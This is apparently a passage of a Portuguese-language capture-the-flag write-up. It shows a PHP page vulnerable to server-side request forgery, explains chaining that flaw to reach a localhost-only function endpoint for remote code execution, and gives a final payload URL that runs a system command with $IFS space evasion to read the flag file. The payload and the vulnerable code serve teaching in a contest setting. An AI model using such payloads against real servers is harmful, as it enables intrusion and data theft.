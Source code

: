 Analisando o index.php percebemos que ele está vulnerável a SSRF:
```php
<?php

$url = $_GET["parametrosupersecretors"];

if(isset($url)) {
   echo "<br>";
   echo file_get_contents("http://".$url); // SSRF here
}

?>
```
Agora é só usar o SSRF pra bypassar o if do localhost do func.php e executar funções arbitrárias do php e conseguir um RCE:
<img src="/img/aratuctf/Pasted image 20220911191252.png" />
Payload final: `https://toxycuser.boita.tech/?parametrosupersecretors=localhost/func.php?action=system%26id=cat$IFS/flag_SKzdI`

## Sandbox Baby
Descrição: "é só um eval, não pode ser tão difícil assim..."
Target: https://sandbox-baby.boita.tech/
